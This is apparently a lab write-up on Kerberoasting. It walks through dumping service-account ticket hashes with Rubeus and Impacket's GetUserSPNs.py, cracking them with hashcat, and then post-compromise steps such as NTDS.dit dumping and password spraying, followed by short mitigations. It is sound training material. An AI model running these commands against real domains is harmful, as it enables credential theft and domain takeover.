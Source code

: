 # Kerberoasting with Rubeus & Impacket

### **Introduction**

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

***

### **Method 1 : Kerberoasting with Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

<figure><img src="../../../../../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

***

### **Method 2 - Impacket**

#### Impacket Installation

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1. `cd /opt` navigate to your preferred directory to save tools in
2. download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19
3. `cd Impacket-0.9.19` navigate to the impacket directory
4. `pip install .` - this will install all needed dependencies

#### Kerberoasting w/ Impacket

1. `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located
2. `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.15.51 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

***

### **What Can a Service Account do**

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

***

### **Kerberoasting Mitigation**

#### Strong Service Passwords

If the service account passwords are strong then kerberoasting will be ineffective

#### Don't Make Service Accounts Domain Admins

Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

***
